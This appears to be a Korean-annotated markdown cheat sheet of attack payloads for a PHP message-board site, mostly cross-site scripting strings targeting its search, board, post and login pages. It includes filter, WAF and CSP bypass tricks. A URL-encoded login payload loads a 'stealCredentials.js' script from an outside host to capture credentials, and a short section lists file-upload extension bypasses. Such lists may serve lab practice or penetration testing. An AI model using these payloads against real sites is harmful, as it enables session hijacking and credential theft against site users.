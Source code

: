 # Payloads

## XSS

### Attack surfaces

- 게시글 검색 `search.php`의 `q` 파라미터

- 게시판 선택 시 `board.php`의 `page` 파라미터

- 글 생성 및 댓글 생성 `post.php` | `stored xss` 

### Payloads

<!-- 검색하는 곳; 숫자 및 문자열 삽입-->
`/search.php?q=<script>alert%287%29<%2Fscript>`

`/search.php?q=<script>alert%28%27test%27%29<%2Fscript>`

`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`

`/search.php?q=<img+src%3Dx+onerror%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041">`

<!-- Unicode encoding -->
`/search.php?q=<script>%5Cu0061lert%281%29<%2Fscript>`

`/search.php?q=<object+data%3D"data%3Atext%2Fhtml%2C<script>alert%281%29<%2Fscript>">`

<!-- 글 생성 및 출력되는 곳-->
<!-- 댓글 생성 및 출력되는 곳-->
`GET /post.php`

`/board.php?page=2<ScRiPt>alert(%27page%27)</sCripT>`

`/index.php?page=2xssz"><img/src=x%20onerror=confirm(999)><!--`

`/post.php?id=41"><img/src=x%20onerror=confirm(999)><!--&board=3`

`/board.php?page=2</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

<!-- 로그인 페이지; username 파라미터; value 속성 내 -->
`/login.php?username=test"><img%20src=x%20onerror=alert(1)>`

`/login.php?username="><base%20href%3d"http%3a%2f%2fgoogle%2ecom%2f">`

<!-- ?username="><script%20src="http://192.168.0.10:7777/stealCredentials.js"></script><br -->
<!-- 로그인 정보 탈취; 페이로드 URL 인코딩 -->
`/login.php?username=%22%3e%3c%73%63%72%69%70%74%25%32%30%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%3a%37%37%37%37%2f%73%74%65%61%6c%43%72%65%64%65%6e%74%69%61%6c%73%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e`

<!-- Custom tag 이용 -->
`/search.php?q=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`

<!-- DOM XSS; board.php 확인 -->
`/board.php?page=2<script>alert(%27xss%27)</script>`

<!-- WAF 우회; () 사용하지 못하고, 16진수 인코딩 기법 사용 및 객체 리터럴로 onerror 이벤트에 eval 함수 적용 후 throw를 통해 트리거 -->
`/board.php?page=2<script>{onerror=eval}throw%27=alert\x281337\x29%27</script>`

<!-- CSP 우회 -->
`?token=;script-src-elem 'unsafe-inline'&search=<script>alert('XSS')</script>`

<!-- 만약 a 태그의 href 속성이 막혔을 경우 -->
`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`

`<svg><animateTransform onbegin=alert(1)>`

<!-- 만약 태그 내 속성이 ">를 통해서 안 닫힐경우, 속성을 이어서 적는 방식 사용 -->
`" autofocus onfocus=alert(1) x="`

`/login.php?username="%20autofocus%20onfocus=alert(1)%20x="`

<!-- <a href="$_GET['homepage']"></a> 부분이 존재할 때, 속성에 직접 pseudo-protocol 삽입 -->
`/post.php?id=51&board=3&homepage=javascript:alert(1)`

`?homepage=data:text/html,<script>alert(1)</script>`

<!-- <script>const searchTerms = '<?php echo $_GET['q'];?>'</script> 와 같은 형식으로 검색어를 받을 때-->
`/search.php?q=%27;alert(document.domain)//`

<!-- <?php $output = str_replace("'", "\\'", $output); ?> 와 같이 작은 따옴표를 이스케이프할 때 -->
`/search.php?q=\%27;alert(document.domain)//`

<!-- 글 수정하는 곳 -->
`/edit_post.php?id=51"%20autofocus%20onfocus="alert(1)<!--`

<!-- 문자열 치환 사용 -->
`/search.php?q=<img%20src="x"%20onerronerroror="alert(1)">`

<!-- const isSafeInput = x => !/<script|<img|<input|<.*on/is.test(x); 필터링 우회-->
`<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">`

<!-- Unicode, ASCII, Computed member access를 이용한 우회 -->
`alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)`
`window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)`

<!-- String.fromCharCode를 이용한 우회 -->
`<script>window[String.fromCharCode(97, 108, 101, 114, 116)](1)</script>`

<!-- 36진수 변환을 통한 우회 -->
`<script>window[17795081..toString(36)](1)</script>`

<!-- 백틱(`)을 통한 우회 -->
`<script>alert`1`</script>`

<!-- alert, document, cookie 문자 필터링 우회 -->
`<script>this['al'+'ert'](this['do'+'cument']['coo'+'kie'])</script>`

<!-- location.hash를 통한 우회; 길이 검증이 존재할 때 -->
`<img src onerror="eval(location.hash.slice(1))">#alert(document.cookie);`

<!-- page 파라미터; <a href="$_GET['page']> -->
`" onfocus=alert(1) autofocus "`

<!-- <script>태그를 사용하는 곳에 </script> 태그로 닫고 HTML 태그와 이벤트핸들러를 통해 스크립트 실행 유도-->
``</script><img src=x onerror=alert(1)><!--`

---
#### 이벤트핸들러

<!-- onload 이벤트 -->
`<body onload="alert('XSS')">`

`<iframe src="about:blank" onload="alert('XSS')" width=0 height=0></iframe>`

<!-- onmousemove 이벤트 -->
`<body onmousemove="alert('XSS')">`

`<audio src="x" onerror="alert('XSS')"></audio>`

```
<script>
  setTimeout(function() { confirm('XSS'); }, 1000);
</script>
```

`<iframe src="javascript:alert('XSS')"></iframe>`

`<object data="x" onerror="alert('XSS')"></object>`

`<body onpointerover="alert('XSS')">`



<!-- svg file -->
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('xss');
   </script>
</svg>
```

### WAF Bypass

- 적용 가능한 태그 및 이벤트 핸들러 무차별 대입 공격으로 확인

- 모든 HTML 태그가 막혀있을 경우, Custom tag 사용

- Unicode 인코딩 기법 사용

- 프로필 이미지에 svg 업로드가 가능할 시 svg 파일 내에 페이로드 삽입

### Cheat Sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



## SQL Injection

## File upload

### 우회 확장자

`pHp` `phtml`